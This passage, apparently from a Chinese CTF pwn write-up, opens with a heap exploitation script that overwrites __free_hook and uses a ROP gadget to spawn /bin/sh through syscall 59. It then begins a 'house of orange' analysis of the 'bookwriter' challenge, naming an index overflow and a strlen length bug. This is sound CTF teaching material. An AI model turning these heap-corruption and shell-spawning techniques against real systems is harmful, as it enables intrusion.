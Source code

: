 ```python
launch_gdb()
data_addr = 0x6CCBB0
bins_addr = 0x00000000006cb858
add(0,'aaa')
add(1,'bbb')
dele(0)
edit(0,p64(data_addr-0x10)*2)
regs = '\x00' * 0x68 + p64(data_addr - 0xf0) 
regs = regs.ljust(0xa0,'\x00') + p64(data_addr - 0xf0 + 16) + p64(0x0000000000480b86)
add(1,regs)

edit(0,p64(0x6ccab0)+ p64(0) + p64(bins_addr)*2)
#0x6ccab0 某个hook之前满足top chunk切割size的地址
payload = '/bin/sh\x00' + p64(59) + p64(59) + p64(0)*2 + p64(0x40F4FA)
add(2,payload.ljust(0xf0,'\x00') + p64(0x6CD608))
edit(0,p64(0x40F519))
dele(1)
#0x6CD608 free_hook
#0x0000000000480b86 : pop rax ; pop rdx ; pop rbx ; ret
p.interactive()
```

# house of orange

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605099652818-99f22511-8707-4be9-a47f-13c1488a8b78.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605099680357-0ae46384-09a2-4a67-93a7-7dc4a393cf81.png)

1.top chunk地址+top chunk size 最后三位0x000

## 例题bookwriter

### 逆向分析

首先向bss段读入数据：

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605099961367-a171121a-9229-4e78-a46d-3d31d7898792.png)

add限制为9个

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605100016780-3c0ce407-0238-47df-b3c5-8f62cdc6d2cd.png)

但发现data只有8个：![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605100183804-6bafc1e9-9b76-41c1-9ad3-772d4f92829e.png)那么可以溢出到data_size（漏洞1）

并且再edit中通过![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605100242744-2f80c12c-502f-4ed0-a759-b57a44c322b7.png)strlen函数获取长度（漏洞2）

information函数会打印author信息并还可以修改它

程序无free功能

